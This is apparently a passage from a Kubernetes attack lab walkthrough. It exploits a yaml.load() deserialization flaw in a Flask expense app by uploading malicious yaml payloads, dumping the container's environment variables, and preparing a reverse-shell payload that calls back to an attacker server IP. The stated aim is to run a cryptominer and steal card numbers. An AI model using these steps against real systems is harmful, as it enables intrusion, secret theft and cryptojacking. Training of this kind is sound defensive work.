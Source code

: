 > #### Our objective is to compromise this cluster. Run our cryptominer and steal card numbers 😉

> #### Exploiting a Deserialization Flaw

> #### Our Flask app has a `yaml.load()` deserialization flaw. Using this flaw, one can potentially gain access to execute code on the backend-server. We will be using this vulnerability to exploit our app.

> #### Our app allows us to upload yaml files to capture expense information. We will load a malicious yaml file that should execute code for us.

* Navigate to `payloads` directory that has malicious yaml files

```commandline
cd /root/container-training/Kubernetes/K8s-Cluster-Attack/payloads
```

* Upload a malicious yaml file and identify the flaw

```commandline
http --form POST $NGFLASK/upload file@test_payment.yml
```

### *It should come back with a response similar to the one below*

```
HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 26
Content-Type: application/json
Date: Thu, 03 Jan 2019 14:35:30 GMT
Server: nginx/1.11.13

{
    "success": "stored"
}
```

* Verify if the malicious transaction that was generated.

```commandline
curl -XGET $NGFLASK/status
```

### *You should see a dump of all Environment variables on the container.*

---

#### Step 6:

* In the `payloads` directory, edit `line 2` of `reverse_shell.yml` and replace `<serverip>` with value of `serverip` fetched in the previous step.

```commandline
sed -i -e 's/Server_IP_Here/'"$(serverip)"'/g' reverse_shell.yml
```
